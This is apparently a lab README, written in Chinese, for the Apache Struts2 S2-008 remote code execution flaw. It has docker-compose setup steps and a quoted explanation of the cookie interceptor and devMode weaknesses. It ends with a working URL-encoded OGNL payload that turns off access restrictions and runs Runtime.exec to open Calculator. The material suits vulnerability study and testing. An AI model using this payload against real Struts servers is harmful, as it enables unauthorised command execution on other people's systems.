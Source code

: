 # S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: http://struts.apache.org/docs/s2-008.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

> 例如在 devMode 模式下直接添加参数 ?debug=command&expression=<OGNL EXP> 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```